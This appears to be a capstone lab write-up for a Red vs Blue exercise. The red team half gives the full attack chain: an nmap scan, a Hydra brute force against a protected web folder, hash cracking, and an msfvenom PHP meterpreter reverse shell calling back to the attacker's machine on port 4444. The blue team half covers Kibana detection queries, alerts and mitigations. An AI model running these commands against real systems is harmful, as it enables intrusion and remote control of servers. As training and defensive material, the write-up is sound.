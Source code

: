 ##### Note: The report of this project is attached ['Project Slide'](Red%20Vs%20Blue%20Project.pdf) in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- ![alt_text](RedvsBlueSC/image25.png)
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* ![alt_text](RedvsBlueSC/image30.png)
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- ![alt_text](RedvsBlueSC/image29.png)
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- ![alt_text](RedvsBlueSC/image33.png)
- ![alt_text](RedvsBlueSC/image34.png)
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- ![alt_text](RedvsBlueSC/image3.png)
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - ![alt_text](RedvsBlueSC/image6.png)
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- ![alt_text](RedvsBlueSC/image5.png)
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- ![alt_text](RedvsBlueSC/image4.png)
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- ![alt_text](RedvsBlueSC/image2.png)
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- ![alt_text](RedvsBlueSC/image1.png)
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- ![alt_text](RedvsBlueSC/image10.png)
- ![alt_text](RedvsBlueSC/image11.png)
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- ![alt_text](RedvsBlueSC/image13-1.png)
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image14.png)
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image15.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image16.png)
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image17.png)
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- ![alt_text](RedvsBlueSC/image19.png)
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- ![alt_text](RedvsBlueSC/image18.png)
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image20.png)
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image21.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image22.png)
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- ![alt_text](RedvsBlueSC/image23.png)
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image23.png)
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.

